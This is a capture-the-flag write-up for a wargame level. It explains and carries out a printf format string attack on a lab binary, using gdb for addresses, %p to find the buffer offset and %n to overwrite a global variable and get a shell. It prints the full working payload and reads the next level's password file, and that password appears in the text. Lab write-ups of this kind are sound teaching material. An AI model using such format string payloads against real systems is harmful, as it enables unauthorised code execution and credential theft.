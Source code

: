 ## Press printf's f for fun and profit (level3)

This level's [binary](source.c) is fairly similar to the last one. It takes user
input and prints it back to stdin:

```shell
# run the binary
./level3
# give it some input
blablabla
# get our input
blablabla
```

However, this time fgets is used to get user input and the buffer length is
valid so the input itself is protected. Although now it's not puts that is used
to print back the input but printf, directly on the input buffer. This means
that we can feed a printf format string directly into this binary which allows
us to perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).

After analysis of the binary through ghidra and gdb, we can see that there is an
unitialized global variable _m_ (thus living in the .bss part of our program's
memory). Since it is not explicitly given a value by the user, it will be set to
0\. This variable is only used once. It is compared to 0x40 (so if it is equal
to 64). If it is indeed equal to this value the binary will give us a shell. So
the goal here is to find a way to set _m_ to 64 through the printf call.

First let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level3
# get the address
(gdb) i addr m
Symbol "m" is at 0x804988c in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
echo 'aaaabbbbccccdddd %p %p %p %p' | ./level3
aaaabbbbccccdddd 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

The p conversion prints the input value as a pointer (here a 32bit pointer) in
hexadecimal. Here the fourth value is "0x61616161" so this means we reached our
buffer starting with "aaaa" (since 0x61 is the ascii code for 'a'). This means
that from the fourth conversion we control which parameter we give to printf.
All we have to do here is to start our exploit payload with the bytes
representing the _m_ variable's address and to use the n conversion to write on
it. The n conversion will not print anything, it will simply write the number of
bytes printed by printf to the given address. We must make the entire format
print 64 bytes. To do this we just need to adjust the conversions field width.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
(python -c 'print "\x08\x04\x98\x8c"[::-1] + "%08p%08p%042p%n"'; cat) | ./level3
0x0002000xb7fd1ac00x00000000000000000000000000000000b7ff37d0
Wait what?!
# there we are, we got the shell
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
